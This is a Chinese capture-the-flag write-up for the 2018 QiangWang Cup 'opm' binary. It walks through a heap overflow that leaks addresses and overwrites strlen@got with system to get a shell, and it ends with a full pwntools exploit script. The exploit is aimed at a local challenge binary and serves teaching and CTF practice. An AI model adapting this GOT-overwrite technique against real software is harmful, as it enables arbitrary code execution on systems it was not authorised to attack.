


# 强网杯 2018 opm
前言
程序运行
程序分析
漏洞分析
过程
### 前言
> &nbsp;&nbsp;&nbsp;&nbsp;这篇`WP`是强网杯过去了很久之后才出的, 参考的是[极目楚天舒](https://blog.csdn.net/weixin_40850881/article/details/80058283)师傅的博客, 这位师傅是一位`CTF老赛手`, 最近复出.由于图片中不能`CTRL+F`出文字, 本文章尽量避免使用图片, 除非必要.

### 程序运行
*1. menu*
```
You were invited to beat one punch man!
(A)dd a new role
(S)how all roles
(E)xit

```
*2. Add*
```
A
Your name:
Bill
N punch?
128
<Bill> said he can kill the boss with 80 punches
```
*3. Show*
```
<Bill> said he can kill the boss with 80 punches
You were invited to beat one punch man!
```
*4. Exit*
```
E(退出)
```
### 程序分析
*0.结构体*
```c
struct node{
    char (*print)(struct node n) ; //函数指针
    char* name;
    int name_number;
    int punch;
};
```
*2. 分析*
> &nbsp;&nbsp;&nbsp;&nbsp;这道题没有用到什么高深的堆分配和释放的知识, 就一个词**溢出**. `IDA F5`之后, 发现`Add`过程存在一个溢出漏洞, `s`的下一个位置就是与`node`结构体相关的地址.


*3. 总体思路*
> &nbsp;&nbsp;&nbsp;&nbsp;泄露堆地址, 泄露`got`地址, 泄露`strlen`真实地址, 修改`got表`中`strlen`项内容为`system`, 发送`/bin/sh\x00`.

### 过程
*1. leak heap*
```python
add("A"*0x70, 9)
add("B"*0x80 + "\xf0", 9) #修改
'''
0x7ffff7fcd700:	0x0000000000000000	        0x0000000000000000
0x7ffff7fcd710:	0x000055c56a558cd0(正确地址)
修改之后
0x7ffff7fcd700:	0x4242424242424242	　　　　　0x4242424242424242
0x7ffff7fcd710:	0x000055c56a5500f0(一块可写区域)
...... 程序将一些信息写入此处
0x55c56a5500f0:	0x0000000000000000	0x000055c56a558d00 <--
0x55c56a550100:	0x0000000000000081	0x0000000000000009   |
'''                                                      |
add("C"*0x80, "D"*0x80 + "\xf0") #leak                   |
'''                                                      |
修改                                                      |
0x7ffff7fcd700:	0x4343434343434343	0x4343434343434343   |
0x7ffff7fcd710:	0x000055c56a558d00 --> 'C'*0x80造成       |
                                                         |
程序将新malloc的地址写入0x55c56a558d00                       |
0x55c56a558d00:	0x4242424242424242	0x000055c56a558dc0    |
0x55c56a558d10:	0x0000000000000080	0x4242424242424242    |
                                                          |
打印("D"*0x80 + "\xf0"), 此时的0x55c56a5500f0还是    --------

'''
```
**结论:** 泄露地址无非就是将地址放入可输入的部分, 然后执行输出函数.

*2. leak function*
```python
add("d" *0x18 + p64(heap + 0x90), '131425' + "F"*0x7a + p64(heap + 0xd0))
'''
"d" *0x18 + p64(heap + 0x90) 如下效果
0x7ffff7fcd690:	0x6464646464646464	0x6464646464646464
0x7ffff7fcd6a0:	0x6464646464646464	0x000055c56a558e50 ---
......                                                   |-----> 二者必须相同
0x7ffff7fcd700:	0x4444444444444444	0x4444444444444444   |
0x7ffff7fcd710:	0x000055c56a558e50	----------------------

'''
#'131425' + "F"*0x7a + p64(heap + 0xd0) 如下效果
```

**结论:** `131425`是为了防止`top chunk`被赋值为0.
*3. leak strlen address*
```python
add("d"*0x18 + p64(strlen_got), "131329" + "F"*0x7a + p64(heap + 0x130))
```
*小结:* 理解了上一步`leak function`, 这一步原理同上.

*4. modify strlen@got*
```python
add("Bill", str(system_addr & 0xffffffff).ljust(0x80, "G") + p64(strlen_got-0x18))
```
*小结:* 看似程序中没有写入功能, 实际上是存在写入的功能的. 就是`punch`大小的读入, 我们可以写入`system`真实地址的后四个字节,前几个字节都一样, 而且我们也只能写入四个字节.

### The Whole EXP
```python
from pwn import *

p = process("./opm")
elf = ELF("./opm")
libc = ELF("./opm")

context.log_level = 'debug'

def add(name, number):
    p.recvuntil("(E)xit\n")
    p.sendline("A")
    p.recvuntil("Your name:\n")
    p.sendline(name)
    p.recvuntil("N punch?\n")
    p.sendline(str(number))

def show():
    p.recvuntil("(E)xit\n")
    p.sendline("S")

def quit():
    p.recvuntil("(E)xit\n")
    p.sendline("E")

#part one: leak heap
add("A"*0x70, 9)
gdb.attach(p)
add("B"*0x80 + "\xf0", 9)
add("C"*0x80, "D"*0x80 + "\xf0")
heap = u64(p.recv(15)[9:].ljust(8, "\x00"))
log.info("heap: %s" % hex(heap))

#part two: leak function ptr
add("d" *0x18 + p64(heap + 0x90), '131425' + "F"*0x7a + p64(heap + 0xd0))
func_ptr = u64(p.recv(7)[1:].ljust(8, "\x00"))
log.info("function_ptr: %s" % hex(func_ptr))

#part three: leak strlen real address
base = func_ptr - 0xb30
strlen_got = base + elf.got['strlen']
gdb.attach(p)
add("d"*0x18 + p64(strlen_got), "131329" + "F"*0x7a + p64(heap + 0x130))
strlen = u64(p.recv(7)[1:].ljust(8, "\x00"))
log.info("real strlen: %s" % hex(strlen))

#part four: modify strlen got
system_addr = strlen - 0x46390
log.info("system: %s" % hex(system_addr))
gdb.attach(p)
add("Bill", str(system_addr & 0xffffffff).ljust(0x80, "G") + p64(strlen_got-0x18))
add("/bin/sh\x00", 8)
p.interactive()
```
### Related Link
[极目楚天舒](https://blog.csdn.net/weixin_40850881/article/details/80058283)
[文件下载]()
